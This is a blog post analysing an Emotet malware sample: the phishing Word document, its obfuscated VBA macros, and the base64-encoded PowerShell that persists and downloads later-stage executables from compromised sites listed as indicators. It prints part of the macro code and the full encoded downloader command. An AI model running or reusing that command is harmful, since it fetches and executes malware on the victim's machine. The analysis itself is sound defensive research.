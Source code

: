 ```yaml
---
title: Emotet malware analysis. Part 1.
description: Analyzing Emotet malware, a trojan that is spread via phishing emails, malicious links and targets individuals, companies and governments.
layout: post
permalink: emotet-malware-analysis-part-1
image: "img/emotet_malware/emotet-malware.jpg"
---
```

This is Part 1 of Emotet malware analysis I'm planning to post. It covers phases 1 and 2 of the attack, specifically phishing and establishing persistence in the infected system. Emotet is spread via phishing emails containing malicious links or attachments, and targets everyone (individuals, companies and governments).

## Phase 1. Malicious email and document.

First phase of the attack starts with a Phishing email. Usually subject, layout, attachments and links are modified periodically by attackers. In this article I'm going to analyze [this sample from VirusTotal](https://www.virustotal.com/#/file/f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c/detection "Emotet's attachment sample").

[ ![VirusTotal Sample](../img/emotet_malware/virustotal_sample.jpg){:.post_image} ](../img/emotet_malware/virustotal_sample.jpg)

One of Emotet's characteristics is constantly changing content of the phishing emails. Usually these contain a malicious link or attachment. This article covers the sample which was spread using via following links:

|URL|
|---|
|hxxps://www.tenderheartfoundation.org/knqimf/muwcu-xh8fa-vnewt/|
|hxxp://clyckmedia.com/clientes/ylhq8-zg1ue-iibdnyco/|
|hxxp://noithathopehome.com/8brl9if/hldd-m2v2fy-xavkpbbl/|
|hxxp://cllcanada.ca/2010/lmef-jmlr1n-ftkktgp/|
|hxxp://www.smilefy.com/it3fqqo/rnk6-9mm14-fcnp.view/|
|hxxp://cadsupportplus.com/assets/nwi2z-20bew-ffuwbfmt/|
|hxxp://www.sdhjesov.cz/wordpress/papcc-koe6n-lsric.view/|
|hxxp://bigkidneys.com/42QQXOURJ/gf1lm-hmr0c-lnkcfak/|
|hxxp://compraventachocados.cl/css/hgkhx-lin1b-zjkebwycv/|
|hxxp://cruelacid.com/icon/bmza-8dlyf-jemlc/|
|hxxp://ecommercedefinitivo.com.br/cursos/ryyjt-tnxm7-byxukc/|
|hxxp://annual.fph.tu.ac.th/wp-content/uploads/ikvv-lt7rlt-bqcnmly/|
|hxxp://dbtools.com.br/mailer/ezsvr-mqo7i-zgysfrmwr/|
|hxxp://demu.hu/wp-content/2h2z2-errsh-sxwqgscp/|
|hxxp://georgekiser.com/test/z6uwt-r0459s-rqkv.view/|
|hxxp://wdl.usc.edu/wp-includes/zvlp-s69lox-wrkbb.view/|
|hxxp://dictionary.me/js/bbrj3-tq4eh-izxcuhnb/|
|hxxp://duncaninstallation.com/images/u32g-mdxys3-gjcwkz/|
|hxxp://devpro.ro/misc/3wa1-zykhgf-xcjqnfs/|

All URLs above, once accessed, drop a Microsoft Office Document with macros in it.

|Checksum|File type|File Size|
|---|---|---|
|f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c|MS Word Document|246KB (251904 bytes)|

### Analysis.

Based on the result we get by running `file` command against this sample, it looks like this document has 1 page and doesn't contain any words.

```bash
f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c: Composite Document File V2 Document, Little Endian, 
Os: Windows, Version 6.1, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, 
Create Time/Date: Mon Mar 11 21:32:00 2019, Last Saved Time/Date: Mon Mar 11 21:32:00 2019, Number of Pages: 1, 
Number of Words: 0, Number of Characters: 5, Security: 0
```

Using `Oletools` to get the list of document's objects, 3 macros elements have been found:

```bash
  7:        74 'Macros/PROJECTwm'
  8: M   70540 'Macros/VBA/S1ADDQ1A'
  9: M   14650 'Macros/VBA/YBB1wA'
 10:     49987 'Macros/VBA/_VBA_PROJECT'
 11:      1344 'Macros/VBA/__SRP_0'
 12:       110 'Macros/VBA/__SRP_1'
 13:       436 'Macros/VBA/__SRP_2'
 14:       187 'Macros/VBA/__SRP_3'
 15:       601 'Macros/VBA/dir'
 16: M    9719 'Macros/VBA/mA4QAX4'
 17:      4096 'WordDocument'
```

### Extraction. 

Objects 8, 9 and 16 contain Visual Basic code, thus of higher interest for further analysis.

|Object|Name|Checksum|Size|
|---|---|---|---|
|8|S1ADDQ1A|34ffc69ff37401b965b04fa4f3c1fbcdffab11fd2e34f9e17a8347b70922398b|44KB (44096 bytes)|
|9|YBB1wA|d51c137e3f591a275628e697d2fbb305cc3c630455480508184b45753608d973|8.8KB (8956 bytes)|
|16|mA4QAX4|d2e56d56ced7ed8de5f701a873086c8134e1311dd574a607a45023f38d5ecaf7|5.6KB (5671 bytes)|

Out of all extracted parts of the script, `mA4QAX4` is the _entry point_ and starts the execution once the document is opened. Whole VBS code is obfuscated, as seen in the image below.

[ ![Macros Entry Point](../img/emotet_malware/macros_entry.png){:.post_image} ](../img/emotet_malware/macros_entry.png)

All three parts are dependent on each other and have to be merged, for further analysis. You can find it [HERE](https://www.virustotal.com/gui/file/50536aaf9cc87b6cf5b3fcd1ef5c11f348737ef28f220872bcbdfb56813c68bc/detection "Merged version").

The call chain looks like this:

1. autoopen();
2. iQwUcAAU(param):
  - Creates **Win32_ProcessStartup** class;
  - Creates an object of the class by calling **Create** method;
  - Passes _param_ string as command argument, thus starting the execution;

Value of _param_ consists of concatenated results of following functions: `SQoBUAA`, `vDXBUQ`, `rDCAQQcA`, `pAADAADD`, `k1kGUAB`, `cAABQDw`. All these functions are similar in terms of logic and were easy to de-obfuscate. Below is the _clean_ version of `SQoBUAA`:

```bash
Function SQoBUAA()
On Error Resume Next
jkQBUx = "l -" + "nop" + " -e" + "n" + "c" + " JA" + "BHA" + "G" + "8Aa" + "wB" + "HA" + "E" + "M" + "AN" + "A" + "B" + "B" + "A" + "D" + "QA" + "PQ" + "A" + "oAC"
lBADQoU = "cAe" + "gBf" + "AC" + "cAK" + "w" + "An" + "AEE" + "AWg" + "AnA" + "CsA" + "Jw" + "Br" + "A" + "G8A" + "RAB"
tcoAAAAQ = "B" + "ACc" + "A" + "K" + "Q" + "A7A" + "CQ" + "AU" + "gBf" + "AEE" + "A" + "a" + "w" + "AxA" + "F8"
HAQUxA_ = "AQQ" + "BBA" + "D0" + "Abg" + "BlA" + "Hc" + "ALQ" + "BvA" + "GI" + "Aa" + "gBl" + "AG" + "MAd" + "A" + "AgA" + "E" + "4" + "A" + "Z" + "QB0" + "A" + "C" + "4A" + "VwB" + "lAG"
tUQokAA = "IA" + "Qw" + "Bs" + "AGk" + "AZQ" + "Bu" + "AH" + "Q" + "A" + "O" + "wA" + "kAG" + "k" + "AVQ" + "Bv" + "AF" + "8AR" + "ABB" + "AD" + "0" + "AK" + "AA" + "n" + "A" + "GgA"
cUAAoX = "d" + "AAn" + "ACs" + "AJw" + "B0" + "AH" + "A" + "AOg" + "A" + "vA" + "C8A" + "Yg" + "B" + "pA" + "G" + "U" + "A" + "ZAB" + "l" + "A" + "H" + "I" + "A" + "bQ" + "Bh"
AkQG_A = "A" + "Cc" + "AKw" + "An" + "AG" + "4AL" + "g" + "B" + "uAG" + "UAd" + "AA" + "vAG" + "wA" + "ZQB" + "zAG" + "wA" + "a" + "QBl"
SQoBUAA = jkQBUx + lBADQoU + tcoAAAAQ + HAQUxA_ + tUQokAA + cUAAoX + AkQG_A
End Function
```

## Phase 2. Persistent Powershell.

A base64 encoded powershell script is extracted and set to run at system's startup, by the document macros.

```powershell
powershell -nop -enc JABHAG8AawBHAEMANABBADQAPQAoACcAegBfACcAKwAnAEEAWgAnACsAJwBrAG8ARABBACcA
KQA7ACQAUgBfAEEAawAxAF8AQQBBAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAGkAVQBvAF8ARABBAD0AKAA
nAGgAdAAnACsAJwB0AHAAOgAvAC8AYgBpAGUAZABlAHIAbQBhACcAKwAnAG4ALgBuAGUAdAAvAGwAZQBzAGwAaQBlAC8AbAAnACsAJwBMAC8AJwArACcAQABoAH
QAdABwADoALwAnACsAJwAvAG4AaQBzAHMAYQAnACsAJwBuAGIAYQAnACsAJwBjAGcAaQBhACcAKwAnAG4AZwAnACsAJwAuAGMAJwArACcAbwBtAC8AdwBwAC0AY
wBvACcAKwAnAG4AdABlAG4AdAAnACsAJwAvAHgAUgAnACsAJwAzAC8AJwArACcAQAAnACsAJwBoAHQAdAAnACsAJwBwADoALwAnACsAJwAvAGUAcQB1AGkAZABh
AGQAZABlAGcAZQBuAGUAcgAnACsAJwBvAC4AJwArACcAaQB6AHQAJwArACcAYQBjAGEAbABhAC4AdQAnACsAJwBuAGEAbQAuAG0AeAAvACcAKwAnAHcAcAAtAGE
AZABtAGkAbgAvACcAKwAnAFgAUABGAC8AQABoAHQAdABwADoALwAvAHcAdwB3AC4AJwArACcAegAnACsAJwBlAHMAdABlAHYAZQBuAHQAJwArACcAcwAuAGMAbw
AvAHcAcAAtACcAKwAnAGkAJwArACcAbgBjAGwAdQBkAGUAcwAvAEcAJwArACcASgBBACcAKwAnAG8ALwBAAGgAdAB0AHAAJwArACcAOgAvAC8AJwArACcAcwB0A
HkAJwArACcAbABpACcAKwAnAHMAaABsAGEAYgAuAHcAZQBiAHAAaQB4AGEAYgB5AHQAJwArACcAZQAnACsAJwAuAGMAJwArACcAbwBtAC8AdAAnACsAJwBoAGoA
bwB3AHIAawA1ACcAKwAnAGUALwA5AFUARwAvACcAKQAuAFMAcABsAGkAdAAoACcAQAAnACkAOwAkAHYAWgBBAEEAQgA0AD0AKAAnAFEAQwBBAEIAJwArACcAQgB
BAFUAJwApADsAJABKAFUAQQBrAEEAQQAgAD0AIAAoACcANAA4ACcAKwAnADYAJwApADsAJABGAGsAWgBBAEQAWgBVAD0AKAAnAGoAJwArACcANABfAEEAQQBCAE
EAJwApADsAJABtAFEAVQBrAHcARwA9ACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAKwAnAFwAJwArACQASgBVAEEAawBBAEEAKwAoACcALgBlACcAK
wAnAHgAZQAnACkAOwBmAG8AcgBlAGEAYwBoACgAJAByAEIAQQBCAEQAbwAgAGkAbgAgACQAaQBVAG8AXwBEAEEAKQB7AHQAcgB5AHsAJABSAF8AQQBrADEAXwBB
AEEALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACQAcgBCAEEAQgBEAG8ALAAgACQAbQBRAFUAawB3AEcAKQA7ACQAQwBYAGsAQQBBADQAQQA9ACgAJwBWADQ
AQgBBACcAKwAnAEEAawBBACcAKQA7AEkAZgAgACgAKABHAGUAdAAtAEkAdABlAG0AIAAkAG0AUQBVAGsAdwBHACkALgBsAGUAbgBnAHQAaAAgAC0AZwBlACAANA
AwADAAMAAwACkAIAB7AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgACQAbQBRAFUAawB3AEcAOwAkAG4ARABBAEEAdwBvAFgAPQAoACcAcwAnACsAJwBvAEEAeABBA
EQAJwApADsAYgByAGUAYQBrADsAfQB9AGMAYQB0AGMAaAB7AH0AfQAkAGMAdwBRAEEAQQBRAHgAPQAoACcARQBCAG8AYwAnACsAJwBBAEEAJwApADsA
```
Once decoded, several URLs pop up which drop phase 3 PE files.

[ ![Decoded powershell](../img/emotet_malware/powershell_decoded.png){:.post_image} ](../img/emotet_malware/powershell_decoded.png)

Totally there are 5 different websites, hosting Emotet malware.

|URL|Dropped PE Checksum|Size|
|---|---|---|
|hxxp://biederman.net/leslie/lL/|e76900b9b50306564c415423e0eb28463722b0427186134ba301209b4ed2f440|180KB (183560 bytes)|
|hxxp://nissanbacgiang.com/wp-content/xR3/|5c2fbc0eaae6ccc8342c22325f0aca1e989beec8d578e3fe57722b807a46c773|180KB (183560 bytes)|
|hxxp://equidaddegenero.iztacala.unam.mx/wp-admin/XPF/|bc0d53d74f3f4ef286b4f4caeb8d8b77e32cc17b808dd0de5674842ad713dd72|180KB (183560 bytes)|
|hxxp://stylishlab.webpixabyte.com/thjowrk5e/9UG/|1c06da405051cfc9f68dbb404e338abb90a38db29f86f17e01487ac2c921c05d|251KB (256264 bytes)|
|hxxp://www.zestevents.co/wp-includes/GJAo/|403 HTTP Error|N/A|

## Conclusion.

Looks like the group behind Emotet, haven't focused on heavily obfuscating phase 1 and 2 scripts. Analysis of downloaded samples to follow in Part 2 of this article.
